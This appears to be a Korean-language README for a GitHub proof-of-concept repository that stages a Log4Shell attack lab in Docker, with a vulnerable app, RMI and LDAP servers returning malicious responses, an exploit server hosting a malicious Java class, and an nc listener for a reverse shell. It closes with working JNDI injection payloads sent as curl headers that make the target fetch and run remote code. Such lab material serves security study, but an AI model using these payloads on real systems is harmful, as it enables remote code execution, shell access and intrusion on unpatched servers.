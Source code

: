 # Log4Shell-PoC
Log4Shell PoC with RMI, LDAP

---- 

# 각 서비스에 대한 설명

|구분|위치|포트(TCP)|설명|
|:--:|:--:|:--:|:--:|
|`Vulnerable Application`|Docker 컨테이너 | 7777 | 취약한 웹 애플리케이션 서버로, Log4Shell 취약점이 발생된다.|
|`RMI Server` | Docker 컨테이너 | 1099 | Vulnerable Appliation으로 부터 RMI 요청을 전달받아, RCE 를 발생시키기 위한 페이로드를 응답한다.|
|`LDAP Server` | Docker 컨테이너 | 389 (openLDAP Server)8080 (phpLDAPadmin)|Vulnerable Appliation으로 부터 LDAP 요청을 전달받아, 악성 Java 객체를 다운로드 받도록 javaCodeBase 속성 값에 Exploit Server 주소 값을 전달한다.|
|`Exploit Server` | 호스트 | 8888 | /Exploit.class 를 요청할 경우 RCE를 일으키는 악성 Java 객체를 반환한다.|
|`nc -lv 9999` | 호스트 | 9999 | Vulnerable Application과 리버스 방식으로 셸을 연결하기 위함|

---- 

# PoC

## 1. Vulnerable Application 셋팅 및 실행

### 빌드 및 실행

1. [DoTTak/Log4Shell-PoC](https://github.com/DoTTak/Log4Shell-PoC) 저장소로 부터 코드를 내려받은 뒤, 해당 프로젝트로 이동한다.
    
    ```bash
    git clone https://github.com/DoTTak/Log4Shell-PoC.git
    cd Log4Shell-PoC
    ```
    
2. 이후 `vulnerable-application` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    cd vulnerable-application
    docker build --platform linux/amd64 -t log4shell-poc-app .
    ```
    
3. 생성된 도커 이미지 `log4shell-poc-app:latest` 를 컨테이너로 실행하자.
    
    > 참고로, 웹 애플리케이션 서버 포트는 항상 `7777` 로 오픈 되어 있다. 변경은 `Application.java` 를 수정하면 된다.
    > 
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-poc-app -p 7777:7777 log4shell-poc-app
    ```

## 2. RMI Server 셋팅 및 실행

### 빌드 및 실행
1.  `rmi-server` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    docker build --platform linux/amd64 -t log4shell-rmi-server .
    ```
    
2. 생성된 도커 이미지 `log4shell-rmi-server:latest` 를 컨테이너로 실행하자.
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-rmi-server -p 1099:1099 log4shell-rmi-server
    ```

## 3. LDAP Server 셋팅 및 실행

> 악성 응답 데이터가 이미 셋팅되어 있다. 

### 빌드 및 실행
1. `ldap-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 실행한다.

    ```bash
    docker-compose up -d
    ```

2. 위 명령어가 정상적으로 수행됐으면 [http://localhost:8080](http://localhost:8080)를 브라우저를 통해 접속한다.

## 4. Exploit Server 셋팅 및 실행

> 참고로, 악성 Java 객체가 이미 컴파일 되어 저장소에 Commit 상태이다.

### 빌드 및 실행
1. `exploit-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 `Exploit.java` 를 컴파일한다.

    ```bash
    javac Exploit.java
    ```

2. 그 다음 해당 경로를 악성 자바 객체를 호스팅하기 위해 아래의 명령어를 통해 웹 서버를 실행한다.

    ```bash
    python3 -m http.server 8888
    ```

## 5. Exploit 수행

> Exploit은 Host에서 Vulnerable Application으로 요청을 수행한다.

### [Exploit] Log4Shell using RMI
```bash
curl localhost:7777/log -H 'msg: ${jndi:rmi://host.docker.internal:1099/Services}'
```

### [Exploit] Log4Shell using LDAP
```bash
curl localhost:7777/log -H 'msg: ${jndi:ldap://host.docker.internal:389/cn=payload,ou=payloads,dc=example,dc=com}'
```